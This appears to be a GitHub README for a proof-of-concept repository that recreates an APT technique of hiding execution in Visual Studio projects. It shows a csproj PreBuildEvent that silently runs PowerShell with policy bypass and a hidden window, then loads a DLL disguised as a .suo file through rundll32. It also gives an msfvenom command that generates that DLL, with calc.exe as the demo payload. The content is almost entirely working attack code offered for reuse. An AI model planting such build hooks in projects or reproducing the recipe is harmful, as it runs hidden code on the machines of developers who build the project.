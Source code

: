 # VisualStudioPreBuildPwn-POC
Recent APT exploitation method POC 


https://www.bleepingcomputer.com/news/security/north-korean-hackers-are-targeting-security-researchers-with-malware-0-days/


```csproj
<PreBuildEvent>
powershell -ep b -win h if(([system.environment]::osversion.version.major -eq 10) -and [system.environment]::is64bitoperatingsystem -and (Test-Path $(TargetName).vxproj.suo)){rundll32 $(TargetName).vxproj.suo,CMS_dataFinal Bx9yb37GEcJNK6bt 4901}
</PreBuildEvent>
```



msfvenom -p windows/exec CMD='calc.exe' -f dll > targetname.vxproj.suo
